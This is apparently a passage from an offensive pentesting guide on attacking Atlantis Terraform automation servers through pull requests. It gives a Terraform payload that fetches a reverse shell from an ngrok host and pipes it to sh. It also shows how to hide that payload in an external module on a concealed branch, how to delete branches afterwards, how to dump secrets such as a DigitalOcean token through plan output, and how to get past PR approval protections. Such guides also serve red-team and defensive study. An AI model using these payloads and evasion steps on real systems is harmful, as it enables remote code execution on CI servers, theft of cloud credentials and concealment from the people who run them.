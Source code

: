 If you have write access over a repository you will be able to create a new branch on it and generate a PR. If you can **execute `atlantis plan`** (or maybe it's automatically executed) **you will be able to RCE inside the Atlantis server**.

You can do this by making [**Atlantis load an external data source**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source). Just put a payload like the following in the `main.tf` file:

```json
data "external" "example" {
  program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```

**Stealthier Attack**

You can perform this attack even in a **stealthier way**, by following this suggestions:

- Instead of adding the rev shell directly into the terraform file, you can **load an external resource** that contains the rev shell:

```javascript
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```

You can find the rev shell code in [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules)

- In the external resource, use the **ref** feature to hide the **terraform rev shell code in a branch** inside of the repo, something like: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
- **Instead** of creating a **PR to master** to trigger Atlantis, **create 2 branches** (test1 and test2) and create a **PR from one to the other**. When you have completed the attack, just **remove the PR and the branches**.

#### Atlantis plan Secrets Dump

You can **dump secrets used by terraform** running `atlantis plan` (`terraform plan`) by putting something like this in the terraform file:

```json
output "dotoken" {
  value = nonsensitive(var.do_token)
}
```

#### Atlantis apply RCE - Config modification in new PR

If you have write access over a repository you will be able to create a new branch on it and generate a PR. If you can **execute `atlantis apply` you will be able to RCE inside the Atlantis server**.

However, you will usually need to bypass some protections:

- **Mergeable**: If this protection is set in Atlantis, you can only run **`atlantis apply` if the PR is mergeable** (which means that the branch protection need to be bypassed).
  - Check potential [**branch protections bypasses**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **Approved**: If this protection is set in Atlantis, some **other user must approve the PR** before you can run `atlantis apply`
  - By default you can abuse the [**Gitbot token to bypass this protection**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
